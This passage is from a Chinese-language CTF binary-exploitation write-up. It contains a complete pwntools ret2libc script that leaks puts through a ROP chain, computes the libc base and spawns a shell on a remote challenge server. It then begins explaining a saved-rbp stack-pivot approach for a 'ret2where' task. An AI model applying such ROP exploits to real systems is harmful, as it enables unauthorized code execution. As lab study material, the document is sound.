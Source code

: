编写脚本，得到 flag：
![image.png](./assets/1649266259136-c3c37cc4-6cf0-4dbf-a6d3-ace1a34bcb8a.png)
脚本如下：
```python
from pwn import *

context.log_level = 'DEBUG'

rdi_ret = 0x401343
ret = 0x40101a
bin_sh_str = 0x1b75aa
system_addr = 0x55410
puts_plt = 0x401070
puts_got = 0x404018
hear_addr = 0x401229
puts_addr = 0x875a0

conn = remote("116.62.228.23", 10301)

conn.recvuntil("ID:\n")
conn.sendline("3190105871")

conn.recvuntil("number?\n")
conn.sendline("0")

payload = b'a'*40 + p64(rdi_ret) + p64(puts_got) + p64(puts_plt)+ p64(hear_addr)

conn.sendline(payload)
conn.recvuntil("way!\n")

lib = u64(conn.recvline()[:-1]  + b'\0\0') - puts_addr

payload = b'a'*40 + p64(rdi_ret) + p64(bin_sh_str + lib) + p64(ret) + p64(system_addr + lib) 
conn.sendline(payload) 

conn.sendline('./flag.exe 3190105871')
conn.interactive()
```


### 03 ret2where
如同第 2 题那样检查信息，唯一不同的是 gadget 的地址：
![image.png](./assets/1649337652426-4862a4f8-fc86-4f10-bba5-7293e53096e2.png)
![image.png](./assets/1649337687197-e609c6c7-81dc-4a21-9a4f-7d5da5c17e0c.png)
分析代码可知，调用 `_coda()` 时的栈如下：
![image.png](./assets/1649306361532-04263a1f-d4d3-4fc9-8577-5b3cf68d0602.png)
其中，`read()`的长度限制使得我们可以写入白色部分的栈区域，但是灰色部分是代码限制我们没有办法写入的。根据第 2 题的思路和过程，我们需要 32 字节的空间，因此我们可以考虑在 `_coda()`中通过修改 saved rbp，在 `leave` 时 `rbp`的值会改为 saved rbp 的值；然后从 `coda()`中 `leave` 时 `rsp`的值会改为 `rbp` 的值，即之前`_coda()`中 saved rbp 的值。使其指向 `name[]`，从而访问 `name[]`中我们的代码。
